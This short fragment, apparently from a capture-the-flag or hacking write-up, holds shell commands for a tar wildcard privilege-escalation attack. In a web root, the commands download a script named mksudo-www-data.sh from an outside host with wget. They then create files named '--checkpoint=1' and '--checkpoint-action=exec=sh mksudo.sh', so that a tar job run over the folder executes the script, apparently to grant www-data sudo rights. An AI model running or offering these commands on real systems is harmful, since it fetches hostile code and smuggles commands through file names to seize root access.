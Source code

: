 

`cd /var/www/html`
`wget 10.18.21.236:8000/shells/mksudo-www-data.sh -O ./mksudo.sh`
`touch ./--checkpoint=1`
`touch ./'--checkpoint-action=exec=sh mksudo.sh'`

